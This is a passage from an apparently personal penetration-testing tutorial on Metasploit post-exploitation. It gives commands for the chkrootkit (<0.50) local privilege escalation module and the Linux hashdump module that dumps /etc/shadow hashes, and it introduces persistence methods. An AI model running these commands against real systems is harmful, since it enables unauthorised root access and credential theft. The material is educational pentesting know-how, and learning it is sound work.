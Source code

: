 <a id=7.3.1></a>
### Exploiting a vulnerable binary

We'll see how to escalate our privileges through vulnerable binaries in Linux through the Metasploit Framework.

However, we must know that the Metasploit Framework offers very little in the aspect of binary exploitation. Nevertheless,
this doesn't mean that we won't find a module to exploit a certain binary or if we don't find something, we could
try to make it ourselves. But that's for later.

In this case, we will exploit chkrootkit versions < 0.50. These are vulnerable to a local privilege escalation
vulnerability.

```bash
$ chkrootkit -V
# if version is older than 0.50, we can exploit it
msf6 > use exploit/unix/local/chkrootkit
msf6 exploit(unix/local/chkrootkit) > set CHKROOTKIT /path/to/chkrootkit
msf6 exploit(unix/local/chkrootkit) > set SESSION [SESSION_ID]
msf6 exploit(unix/local/chkrootkit) > run
# what this does is create a payload in the /tmp directory under the name "update".
# for some reason chkrootkit would open this file and execute whatever it contains
# as root.
```

There are many more vulnerable binaries out there. I personally use crackmes to learn more about reverse engineering and binary
exploitation. It's a highly complex field in my opinion, far more than other ones in the realm of pentesting. But that's just
what I think :)

<a id=7.3.2></a>
### Dumping Hashes with Hashdump

Using hashdump on Windows is different than on Linux. Nevertheless, they do accomplish the same target: dumping hashes. And lets
not forget that the Linux hashes are stored on the /etc/shadow file.

```bash
msf6 > search hashdump
msf6 > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > set SESSION [SESSION_ID]
msf6 post(linux/gather/hashdump) > run
# the files will be stored on the 'loot'. so if you wanna check your loot,
# just do that :)
```

<a id=7.3.3></a>
### Establishing Persistence

We already know what persistence is. The methods change, though. We want to establish persistence through system services (sysv, initrc,
systemd, etc), cron jobs, SSH keys, bashrc scripts and more.
